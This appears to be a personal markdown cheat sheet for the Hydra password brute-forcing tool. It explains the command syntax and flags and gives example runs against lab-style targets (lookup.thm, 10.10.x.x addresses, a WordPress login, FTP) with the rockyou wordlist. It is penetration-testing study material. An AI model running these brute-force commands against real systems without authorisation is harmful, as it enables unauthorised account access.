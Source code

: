 # Hydra
Attacks systems with brute forcing with a collection of passwords & usernames.
Most common passwords location: `/usr/share/wordlists/rockyou.txt`

hydra syntax:
```
hydra -l USERNAME -P WORDLIST.txt ATTACKING_IPorSERVER http-REQUEST-form "/LOGINPAGE.php:User=^USER^&pwd=^PWD^:MESSAGE" -t 30
```
Example:
```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

- `-l username`: *-l* should precede the username, i.e. the login name of the target.
	- `-L`: To use a file with a list of usernames
- `-P wordlist.txt`: *-P* precedes the wordlist.txt file, which is a text file containing the list of passwords you want to try with the provided username
	- `-p`: To use a single password
- `server`: Hostname or IP address of the target
- `http-REQUEST-form`: Defines the form used to send the login
	- Post, get, etc. 
- `"/LOGINPAGE.php`: Defines the login page
- `User=^USER^&pwd=^PWD^`: The syntax this form uses to define the username and password. 
	- `^USER^`: Where hydra will use our username
	- `^PWD^`: Where hydra will use our password 
-`MESSAGE`: The message that we receive when we don't get a valid response

**Example**:
```
hydra -L fsocity.dic -p test 10.10.178.83 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"
hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://10.10.209.178
```
#### Options
`-s PORT`: Specifies a port for the service in question
`-V: Verbose`. Shows all username & password combinations being tried
`-d`: Debugging
